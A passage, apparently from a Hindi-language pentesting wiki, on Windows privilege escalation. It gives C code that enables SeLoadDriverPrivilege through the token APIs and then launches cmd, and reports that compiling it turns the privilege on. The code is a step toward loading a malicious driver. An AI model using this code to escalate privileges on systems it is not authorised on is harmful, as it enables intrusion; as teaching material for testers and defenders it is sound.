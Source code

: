 हालांकि, नीचे कोड इस विशेषाधिकार को बहुत ही आसानी से सक्षम करने की अनुमति देता है:
```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
TOKEN_PRIVILEGES tp;
LUID luid;
bool bEnablePrivilege(true);
HANDLE hToken(NULL);
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
L"SeLoadDriverPrivilege",   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("LookupPrivilegeValue error: %un", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;

if (bEnablePrivilege) {
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
}

// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("AdjustTokenPrivileges error: %x", GetLastError());
return FALSE;
}

system("cmd");
return 0;
}
```
{% endcode %}

हम ऊपर दिए गए को कंपाइल करते हैं, और वो निष्क्रिय हो जाता है और विशेषाधिकार `SeLoadDriverPrivilege` अब सक्षम हो जाता है:

![](../../../.gitbook/assets/a10.png)
